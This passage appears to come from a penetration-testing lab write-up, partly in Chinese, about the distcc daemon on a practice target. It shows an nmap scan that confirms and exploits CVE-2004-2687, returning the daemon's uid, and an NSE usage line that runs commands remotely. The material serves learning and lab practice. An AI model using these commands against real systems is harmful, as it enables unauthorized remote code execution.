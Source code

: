```shell
 /usr/share/nmap/scripts/distcc-cve2004-2687.nse
 
 $ sudo nmap -T4 --script distcc* -p3632 10.10.10.3                
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 13:57 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.24s latency).
 
 PORT     STATE SERVICE
 3632/tcp open distccd
 | distcc-cve2004-2687: 
 |   VULNERABLE:
 |   distcc Daemon Command Execution
 |     State: VULNERABLE (Exploitable)
 |     IDs: CVE:CVE-2004-2687
 |     Risk factor: High CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
 |       Allows executing of arbitrary commands on systems running distccd 3.1 and
 |       earlier. The vulnerability is the consequence of weak service configuration.
 |       
 |     Disclosure date: 2002-02-01
 |     Extra information:
 |       
 |     uid=1(daemon) gid=1(daemon) groups=1(daemon)
 |   
 |     References:
 |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
 |_     https://distcc.github.io/security.html
 
 Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

网上查distccd的资料：

> *distccd* is the server for the ***distcc**(1)* distributed compiler. It accepts and runs compilation jobs for network clients.

`more /usr/share/nmap/scripts/distcc-cve2004-2687.nse`查看NSE脚本的具体内容：

```shell
 $ more /usr/share/nmap/scripts/distcc-cve2004-2687.nse
 .....
 description = [[
 Detects and exploits a remote code execution vulnerability in the distributed
 compiler daemon distcc. The vulnerability was disclosed in 2002, but is still
 present in modern implementation due to poor configuration of the service.
 ]]
 
 ---
 -- @usage
 -- nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
 ...
```
